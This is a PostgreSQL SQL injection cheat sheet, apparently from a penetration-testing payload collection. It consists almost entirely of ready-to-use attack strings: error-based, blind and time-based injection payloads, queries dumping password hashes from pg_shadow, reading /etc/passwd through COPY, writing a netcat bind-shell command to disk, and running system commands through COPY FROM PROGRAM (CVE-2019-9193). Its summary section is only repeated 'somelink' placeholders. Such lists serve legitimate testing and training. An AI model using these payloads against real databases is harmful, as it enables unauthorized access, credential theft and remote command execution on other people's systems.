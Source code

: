 <h1>PostgreSQL injection</h1>

<h2>Summary</h2>

somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>



<h2>PostgreSQL Comments</h2>

```
--
/**/
```

<h2>PostgreSQL Version</h2>

```
SELECT version()
```

<h2>PostgreSQL Current User</h2>

```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

<h2>PostgreSQL List Users</h2>

```
SELECT usename FROM pg_user
```

<h2>PostgreSQL List Password Hashes</h2>

```
SELECT usename, passwd FROM pg_shadow 
```

<h2>PostgreSQL List Database Administrator Accounts</h2>

```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

<h2>PostgreSQL List Privileges</h2>

```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

<h2>PostgreSQL Database Name</h2>

```
SELECT current_database()
```

<h2>PostgreSQL List Database</h2>

```
SELECT datname FROM pg_database
```

<h2>PostgreSQL List Tables</h2>

```
SELECT table_name FROM information_schema.tables
```

<h2>PostgreSQL List Columns</h2>

```
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

<h2>PostgreSQL Error Based</h2>

```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

<h2>PostgreSQL Blind</h2>

```
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

<h2>PostgreSQL Time Based</h2>

```
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

<h2>PostgreSQL Stacked Query</h2>

```
Use a semi-colon ";" to add another query
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

<h2>PostgreSQL File Read</h2>

```
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
NOTE: ``pg_read_filedoesn't accept the/` character.

CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

<h2>PostgreSQL File Write</h2>

```
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

<h2>PostgreSQL Command execution</h2>
<h3>CVE-2019–9193<h3>

Can be used from Metasploit if you have a direct access to the database, otherwise you need to execute manually the following SQL queries.

```
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
